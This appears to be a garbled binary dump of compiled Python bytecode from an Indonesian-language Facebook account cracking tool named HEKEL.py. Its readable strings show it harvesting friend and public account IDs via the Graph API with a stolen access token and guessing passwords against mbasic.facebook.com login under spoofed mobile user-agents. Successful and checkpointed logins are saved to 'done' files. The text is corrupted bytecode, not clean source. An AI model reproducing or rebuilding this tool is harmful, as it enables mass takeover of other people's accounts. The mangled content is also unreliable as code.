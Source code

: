 ���user-agentR¢���s���save-devices���[0;92m[OK][0;97m s��� [0;92mâ—Š [0;97mRj���s���done/hindi.txtRh���s��� [OK] s��� â—Š RH���s���[0;93m[CP][0;97m s��� [0;91mâ—Š[0;97m s��� [0;91mâ—Š [0;97ms��� [CP] R ���R¡���s—���Mozilla/5.0 (Linux; Android 7.1.2; AFTMM Build/NS6265; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/70.0.3538.110 Mobile Safari/537.36R¤���s‰���Mozilla/5.0 (Linux; Android 6.0.1; SM-G532G Build/MMB29T) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.83 Mobile Safari/537.36R£���sˆ���Mozilla/5.0 (Linux; Android 7.0; SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Mobile Safari/537.36(���R���R¦���R§���R[���R\���Rb���R]���R^���R_���R‚���R¨���RI���R���R`���R©���Rª���R«���(���RÏ���RÐ���RÑ���RÅ���RÒ���RÓ���RÔ���R²���R³���RÕ���RÖ���R×���(����(����s���/sdcard/HEKEL.pyR·���±��sŒ���� 7 7 7 7 i���sž��� [1;94mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€s-���[1;97m([1;94mâ€¢[1;97m) [1;97mSelesai ...sS���[1;97m([1;94mâ€¢[1;97m) [1;97mTotal [1;92mOK[1;97m/[1;93mCP [1;97m: [1;92ms���[1;97m/[1;93ms^���[1;97m([1;94mâ€¢[1;97m) [1;97mSalin hasil crack lalu simpan[1;91m : [1;97mdone hindi.txti2���s ���[1;94mâ”€s���[1;97m([1;91mKembali[1;97m) (#���R%���RÙ���R���R���RŠ���R ���R���R[���R\���Rb���R]���R^���R_���Rc���Rª���RK���R™���Ra���R���R���RI���R¸���R¹���RL���RŽ���Rº���R»���R���R ���R���R����R¼���R©���R«���RJ���(���R½���R2���R���R¾���R¿���RÀ���RÁ���RÂ���RÃ���RÄ���R���R���R·���RÅ���(����(����s���/sdcard/HEKEL.pyRÙ���]��s¦���� L) c�����������C���sé���t��j�d�ƒ�y�t�d�d�ƒ�j�ƒ��a�Wn7�t�k �r_�d�GHt��j�d�ƒ�t�j�d�ƒ�t�ƒ��n�Xt��j�d�ƒ�t�GHd�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d �GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d�GHt�j�d�ƒ�t �ƒ��d��S( ���NR���s���login.txtR2���s���([0;91m![0;97m) Token Invalids���rm -rf login.txti���s����[0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€gìQ¸…ë±?s)���[0;97m1).[0;97m Crack Dari Daftar Temans)���[0;97m2).[0;97m Crack Dari Publik/Temans!���[0;97m3).[0;97m Crack Dari Files ���[0;91m0[0;97m).[0;97m Kembali(���R���R���RI���R����Rb���RL���R ���R���R���RŠ���t���pilih_usa(����(����(����s���/sdcard/HEKEL.pyRš�����s.���� c����������C���s ��t��d�ƒ�}��|��d�k�r'�d�GHt�ƒ��n|��d�k�r¥�t�j�d�ƒ�t�GHd�GHt�j�d�ƒ�t�j�d�t�ƒ�}�t �j�|�j�ƒ�}�x¹|�d�D]�}�t �j�|�d �ƒ�q‡�Wn“|��d�k�rÎt�j�d�ƒ�t�GHd�GHt�j�d�ƒ�t��d�ƒ�}�t�j�d�ƒ�y>�t�j�d �|�d�t�ƒ�}�t �j�|�j�ƒ�}�d�|�d�GHWnI�t�k �rUd�GHt��d�ƒ�t�ƒ��n#�t�j�j�k �rwd�GHt�ƒ��n�Xt�j�d �|�d�t�ƒ�}�t �j�|�j�ƒ�}�x�|�d�D]�}�t �j�|�d �ƒ�q°Wnj|��d�k�sæ|��d�k�r¦t�j�d�ƒ�t�GHyb�d�GHt�j�d�ƒ�t��d�ƒ�}�t�j�d�ƒ�x0�t�|�d�ƒ�j�ƒ��D]�}�t �j�|�j�ƒ��ƒ�q<WWqÔt�k �r|d�GHt��d�ƒ�qÔt�k �r¢d�GHt��d�ƒ�t�ƒ��qÔXn.�|��d�k�s¾|��d�k�rÈt�ƒ��n�d�GHt�ƒ��d�t�t�t �ƒ�ƒ�GHt�j�d�ƒ�d�d �d!�g�} �x0�| �D](�}�d"�|�Gt�j�j�ƒ��t�j�d#�ƒ�qWd$�GHt�j�d�ƒ�d%�GHt�j�d�ƒ�d&�GHt�j�d�ƒ�d'�GHt�j�d�ƒ�d�GHt�j�d�ƒ�d(�„��}�t�d)�ƒ�} �| �j�|�t �ƒ�d$�GHd*�GHd+�t�t�t �ƒ�ƒ�d,�t�t�t!�ƒ�ƒ�GHd-�GHd.�d/�GHt��d0�ƒ�t"�ƒ��d��S(1���Ns ���[1;97m(?) Pilih [94m> [1;97m R���s���([0;91m![0;97m) Isi Yg BenarR ���R���s����[0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€gìQ¸…ë±?s3���https://graph.facebook.com/me/friends?access_token=Rf���Rc���R!���s5���[1;97m([0;94mâ€¢[0;97m) ID Publik [0;91m:[0;97m s���https://graph.facebook.com/s���?access_token=s0���[1;97m([0;94mâ€¢[0;97m) Nama [0;91m:[0;97m Rj���s%���([0;91m![0;97m) ID publik tidak adas��� [1;97m([1;91mKembali[1;97m)s*���[1;97m([0;91m![0;97m) Tidak ada koneksis���/friends?access_token=R"���R����s<���[1;97m([1;94mâ€¢[1;97m) [1;97mNama File[1;91m :[1;97m R2���s#���([0;91m![0;97m) File tidak ada ! s���[1;97m([1;91mKembali[1;97m)s"���([0;91m![0;97m) File tidak ada !R$���Rž���s4���[0;97m([0;94mâ€¢[0;97m) Total Id[1;91m :[1;97m s���. s���.. s���... s$��� ([0;94mâ€¢[0;97m) Crack Berjalan i���sž��� [0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€s9���[0;97m Lama Hasil Gunakan Mode Perawan 3 Detik JossðŸ‘�s4���[0;97m Untuk Menghentikan Proses, Tekan CTRL + zs7���[0;97m Sedang Proses Mohon Bersabar, Semoga Beruntungc���������S���s"��|��}�y�t��j�d�ƒ�Wn�t�k �r*�n�Xyét�j�d�|�d�t�ƒ�}�t�j�|�j�ƒ�}�|�d�d�}�t�j�d�d�i�|�d�6|�d�6d �d�6d�i�d �d�6ƒ}�|�j �}�d�|�k�sÁ�d�|�k�r d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nód�|�k�r‹d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nˆ|�d�d�}�t�j�d�d�i�|�d�6|�d�6d �d�6d�i�d �d�6ƒ}�|�j �}�d�|�k�sñd�|�k�rPd�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nÃd�|�k�r»d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nX|�d�d�} �t�j�d�d�i�|�d�6| �d�6d �d�6d�i�d�d �6ƒ}�|�j �}�d�|�k�s!d�|�k�r€d�|�d�| �d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�| �ƒ�|�j �ƒ��t�j�|�ƒ�n“d�|�k�rëd�|�d�| �d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�| �ƒ�|�j �ƒ��t�j�|�ƒ�n(d!�}�t�j�d�d�i�|�d�6|�d�6d �d�6d�i�d�d �6ƒ}�|�j �}�d�|�k�sId�|�k�r¨d�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�nk�d�|�k�rd�|�d�|�d�|�d�GHt�d�d�ƒ�}�|�j�d�|�d�|�ƒ�|�j �ƒ��t�j�|�ƒ�n��Wn�n�Xd��S("���NRŸ���s���https://graph.facebook.com/s���/?access_token=R ���R¡���s%���https://mbasic.facebook.com/login.phpRf���R4���R5���RU���R0���Rt���s—��Mozilla/5.0 (Linux; Android 9; Infinix X652B Build/PPR1.180610.011; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/85.0.4183.81 Mobile Safari/537.36 [FBAN/FB4A;FBAV/286.0.0.48.112;FBBV/242171848;FBDM/{density=2.0,width=720,height=1428};FBLC/en_US;FBRV/243389251;FBCR/Warid;FBMF/INFINIX MOBILITY LIMITED;FBBD/Infinix;FBPN/com.facebook.katana;FBDV/Infinix X652B;FBSV/9;FBOP/19;FBCA/arm64-v8a:;]s ���User-AgentR¢���s���save-devices���[0;92m[OK][0;97m s��� [0;92mâ—Š [0;97mRj���s���done/usa.txtRh���s��� [OK] s��� â—Š RH���s���[0;93m[CP][0;97m s��� [0;91mâ—Š[0;97m